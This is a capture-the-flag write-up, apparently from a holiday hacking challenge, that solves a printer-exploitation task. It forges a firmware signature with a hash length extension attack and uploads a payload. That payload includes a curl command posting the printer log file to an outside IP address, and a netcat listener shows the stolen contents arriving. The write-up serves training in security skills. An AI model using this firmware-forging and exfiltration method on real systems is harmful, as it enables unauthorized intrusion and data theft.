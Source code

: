 # 7) Printer Exploitation

_Difficulty:_  :evergreen_tree: :evergreen_tree: :evergreen_tree: :evergreen_tree:

> Investigate the stolen Kringle Castle printer. Get shell access to read the
> contents of `/var/spool/printer.log`. What is the name of the last file printed
> (with a `.xlsx` extension)? Find _Ruby Cyster_ in Jack's office for help with this
> objective.

[Kringle Castle printer](https://printer.kringlecastle.com/)

Ruby Cyster

> Hey, I'm Ruby Cyster. Don't listen to anything my sister, Ingreta, says about
> me.  So I'm looking at this system, and it has me a little bit worried.  If I
> didn't know better, I'd say someone here is learning how to hack North Pole
> systems.  Who's got that kind of nerve!  Anyway, I hear some elf on the other
> roof knows a bit about this type of thing.  Oh man - what is this all about?
> Great work though.  So first things first, you should definitely take a look at
> the firmware.  With that in-hand, you can pick it apart and see what's there.

When analyzing a device, it's always a good idea to pick apart the firmware.
Sometimes these things come down Base64-encoded.

```sh
$ curl --silent https://printer.kringlecastle.com/firmware/download | jq -r '.firmware'  | base64 -d > firmware
$ file firmaware
firmware: Zip archive data, at least v2.0 to extract, compression method=deflate
```

> Have you heard of Hash Extension Attacks?

[Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)

[github.com/iagox86/hash_extender](https://github.com/iagox86/hash_extender)

Hint: Files placed in /app/lib/public/incoming will be accessible under
<https://printer.kringlecastle.com/incoming/>

```sh
curl -X POST --data @/var/spool/printer.log 3.71.92.79:9200
```

```sh
$ zip new.zip firmware.bin # content of firmware.bin = above bash script
$ zipinfo new.zip
 Archive:  new.zip
 Zip file size: 234 bytes, number of entries: 1
 -rwxrwxr-x  3.0 unx       60 tx stor 21-Dec-24 09:19 firmware.bin
 1 file, 60 bytes uncompressed, 60 bytes compressed:  0.0%

$ ./hash_extender/hash_extender --file firmware.zip --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format=sha256 -l 16 --out-data-format=hex -a `cat new.zip | xxd -p -c 99999999999` --append-format hex

Type: sha256
Secret length: 16
New signature: 8e252e34ae6e4c908a43d0de5bd41304facc76901412e79147c60676aae4e026
New string: 504b0304140000000d776172652e62696e5554090003a2a4bb61a2a4bb6175780b000104000000000400000000ed5b5f6c1c47199fbdf3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a22419109a9e446a05e54885248bdccecceb7de99db6bca0bf0b09dec7ad63bdfb712c9...00000000
```

![CyberChef](img/cyberchef.png)

Recontructured firmware upload file json with updated signature
and zip file base base64 [firmware_patched.json](./firmware_patched.json)

```text
ubuntu@ip-10-0-1-242:~$ nc -l -p 9200
POST / HTTP/1.1
Host: 3.71.92.79:9200
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 338
Content-Type: application/x-www-form-urlencoded

Documents queued for printing=============================Biggering.pdfSize Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdfLowEarthOrbitFreqUsage.txtBest Winter Songs Ever List.docWin People and Influence Friends.pdfQ4 Game Floor Earnings.xlsxFwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.emlTroll_Pay_Chart.xlsx
```

_Answer:_ **Troll_Pay_Chart.xlsx**

The following error along the way was crucial.
The Elf hint "...multiple files of that type..."
apprently referred to that the (new) file needs to be
named 'firmware.bin'.

```text
Failed to parse the ZIP file: Could not extract firmware.bin from the archive:

$ unzip '/tmp/20211224-1-z201xi' 'firmware.bin' -d '/tmp/20211224-1-z201xi-out' 2>&1 && /tmp/20211224-1-z201xi-out/firmware.bin

Archive:  /tmp/20211224-1-z201xi
warning [/tmp/20211224-1-z201xi]:  2608 extra bytes at beginning or within zipfile
  (attempting to process anyway)
caution: filename not matched:  firmware.bin
```

## References / Links

* [Modern Web App Pen Testing II, Hash Length Extension Attacks](https://www.youtube.com/watch?v=ckF5oboeh4Q)
